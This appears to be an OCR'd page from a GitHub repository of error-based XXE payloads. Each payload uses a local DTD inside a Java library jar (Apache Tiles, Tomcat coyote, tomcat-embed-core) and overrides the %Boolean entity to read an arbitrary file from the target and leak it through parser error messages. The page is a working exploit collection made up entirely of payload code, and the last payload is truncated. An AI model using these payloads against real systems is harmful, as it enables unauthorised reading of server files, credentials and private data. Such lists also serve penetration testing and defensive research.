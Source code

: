 **Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tiles/tiles-core/3.0.7/tiles-core-3.0.7.jar!/org/apache/tiles/resources/tiles-config_3_0.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tomcat/coyote/6.0.29/coyote-6.0.29.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tomcat/coyote/6.0.29/coyote-6.0.29.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tomcat/embed/tomcat-embed-core/7.0.47/tomcat-embed-core-7.0.47.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tomcat/embed/tomcat-embed-core/7.0.47/tomcat-embed-core-7.0.47.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>
```